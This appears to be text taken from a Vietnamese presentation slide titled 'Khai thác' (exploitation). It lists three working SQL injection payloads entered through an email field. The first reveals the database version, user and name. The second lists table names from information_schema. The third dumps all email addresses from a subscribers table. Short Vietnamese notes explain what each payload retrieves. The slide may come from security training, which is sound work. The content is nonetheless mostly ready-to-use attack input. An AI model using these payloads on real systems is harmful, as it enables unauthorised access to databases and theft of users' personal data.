

# Khai thác
Payload :bob@livemail.com' UNION ALL SELECT concat_ws(0x3a, version(), user(), database())--    >> lấy ra phiên bản , user và database
Payload : bob@livemail.com' UNION ALL SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema=database()—
>> lấy ra tên bảng
Payload: bob@livemail.com' UNION ALL SELECT email FROM carvibe_subscribers--    >> lấy ra tất cả email từ bảng trên .